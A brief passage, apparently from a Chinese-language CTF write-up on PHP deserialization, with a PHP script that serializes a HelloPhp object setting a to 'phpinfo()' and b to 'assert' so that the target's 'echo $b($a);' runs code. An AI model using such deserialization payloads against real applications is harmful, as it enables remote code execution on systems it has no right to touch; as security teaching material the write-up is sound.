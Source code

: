可以看到，在反序列化后会执行``echo $b($a);``，这里为

```php
<?php
class HelloPhp {
    public $a;
    public $b;
    
    public function __construct() {
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
}  

$c = new HelloPhp;
$d = serialize($c);
echo $d;
?>
```

....